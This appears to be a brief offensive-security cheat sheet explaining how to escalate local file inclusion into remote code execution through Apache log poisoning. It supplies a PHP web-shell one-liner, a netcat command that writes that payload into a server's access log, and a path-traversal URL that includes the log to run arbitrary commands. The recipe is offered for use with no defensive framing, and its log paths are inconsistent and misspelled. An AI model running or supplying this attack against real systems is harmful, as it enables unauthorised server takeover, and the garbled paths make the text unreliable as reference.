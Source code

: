 ```yaml
---
description: RCE = Remote code execution
---
```


# LFI to RCE - Logs Infection

If you have an **LFI** ambient, you can try to get **RCE** with server logs.\
On Apache-Server, by default, the logs are in `/var/logs/apache2/access.log`

If you can see the logs, try to make a request and it shows on a log: \
ex: `https://example.com/REQUEST`

if you can see the result, possibly the application is vulnerable!

### Example .php payload:

```php
<?php system($_GET['hack']); ?>
```

To send this file for the application, use **Netcat**:

```bash
nc -v example.com -C

<?php system($_GET['hack']); ?>
```

if it works just use the parameter in the URL and you can run commands on the server remotely:

```
.../page.php?page=/../../var/log/apache2/acess.log&hack=command
```
